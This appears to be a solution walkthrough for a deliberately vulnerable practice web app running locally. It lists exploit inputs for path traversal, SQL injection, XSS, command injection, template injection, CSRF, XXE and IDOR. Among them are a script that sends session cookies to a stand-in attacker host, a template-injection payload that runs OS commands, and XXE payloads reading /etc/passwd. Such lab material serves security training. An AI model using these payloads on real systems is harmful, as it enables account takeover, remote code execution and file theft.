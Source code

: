 ### LFI challenge

http://127.0.0.1:8080/find_secret?file=..\..\..\secrets.txt


### SQLi:

enter "' OR 'a'='a';--" inside the Email Address field

### XSS stored:

After logging in as a user,
Add a note such as "<script> alert(1) </script>"

Due to the insecure session management, an attacker can also retrieve the session data of the logged-in user with
the following script.

```
<script>document.location='http://veryevilhacker.com?cookie='+document.cookie</script>
```

An attacker hosting the malicious site can look at the log data and sees the user's cookie value to authenticate as the user.


### Command injection:


go to http://127.0.0.1:8080/ping and

enter "127.0.0.1 | whoami"


### XSS Reflected:


### SSTI:

Vulnerable Endpoint: http://127.0.0.1:8080/find_secret?file=

If you supply a file name that doesn't exist on the backend, it shows an error such as "404 page not found: the resource does not exist!".

Since the template is being used insecurely, it's vulnerable to SSTI.

Simply supply {{ 7 * 7 }} for the file parameter and observe it returns 49.

We can also achieve a RCE with: (reveals the files in the current directory)

```
http://127.0.0.1:8080/find_secret?file={%%20for%20x%20in%20().__class__.__base__.__subclasses__()%20%}{%%20if%20%22warning%22%20in%20x.__name__%20%}{{x()._module.__builtins__[%27__import__%27](%27os%27).popen(%22dir%22).read()}}{%endif%}{%%20endfor%20%}
```


### CSRF attack

After logging in, there's a functionality to change the current user's email.

Since the CSRF token is not implemented, attacker can craft a payload and put it inside a website to trick a user to visit the site, then submit a form to change the logged-in user's email to whatever the email attacker specifies it as.
Payload:
```html
<html>
    <body>
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>

```

#### XXE

The login page shows there's an endpoint /is_xml where a user can send a post request containing an XML file with a key:xml to check if the file is valid.
This function is vulnerable to an XXE attack.

sample payload:

Linux:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<items>
    <name>&xxe;</name>
    <price>100</price>

</items>

```


Windows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE x [<!ENTITY xxe SYSTEM "file:///C:/windows/system32/drivers/etc/hosts">]>
<items>
    <name>&xxe;</name>
    <price>100</price>

</items>
```

Upload the xml file via a POSTMAN by choosing the "form-data" option and specify the Key as "xml" and select the payload file.


### IDOR 

A logged-in user is able to enumerate other user's email addresses at /users?id=ID_NUMBER.
Essentially, any logged_in user can enumerate all the users' email addresses by going through the id values.

